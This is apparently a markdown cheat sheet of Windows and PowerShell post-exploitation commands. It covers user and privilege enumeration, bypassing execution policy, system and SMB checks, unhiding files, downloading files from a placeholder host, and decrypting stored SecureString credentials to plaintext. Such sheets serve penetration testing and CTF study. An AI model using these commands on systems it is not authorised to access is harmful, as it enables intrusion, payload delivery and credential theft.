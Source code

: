 ## first move to a powershell:-
powershell.exe

## then the obvious:-
whoami<br />
echo %username% (if whoami doesnt work) ONLY FOR CMD NOT FOR POWERSHELL<br />
$ENV:USERNAME (if whoami doesnt work) ONLY FOR POWERSHELL NOT FOR CMD<br />
whoami /priv<br />
net user<br />
net localgroup Administrators<br />
Get-ExecutionPolicy<br />
powershell.exe -ep bypass (to set execution policy to bypass)<br />
Get-Host | Select-Object Version (to check the whole version of powershell)<br />
$PSVersionTable.PSVersion.Major (to check the version of powershell)


## About the system and proccess running:-
systeminfo<br />
tasklist<br />
([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator) (to check if you r admin or not)<br />
(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1") (to check for smb version 1)<br />

## Locate files in the whole drive
dir filename.extension /s (do it from C:\ folder)(supports regex)

## Unhide directories and files
attrib -h -r -s /s /d C:\*.* (The C drive can be changed to any drive of your choice)

## To Download somthing from the internet or intranet:-
powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://ip address/domain:port/file","download location's full path\programname.extension")<br />
powershell Invoke-Webrequest -OutFile 'Dstn path.Extension' -Uri http://ip address/domain:port/file

## Decrypting Powershell SecureString (ONLY WORKS WHEN YOU ARE THE OWNER OF THE XML FILE)
### If you have a xml object file

$credential = Import-CliXml -Path  <PathToXml>\MyCredential.xml <br />
$credential.GetNetworkCredential().Password <br />

### If you have a single string

$secretStuff = Get-Content  -Path secretstuff.txt | ConvertTo-SecureString <br />
[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($secretStuff))))
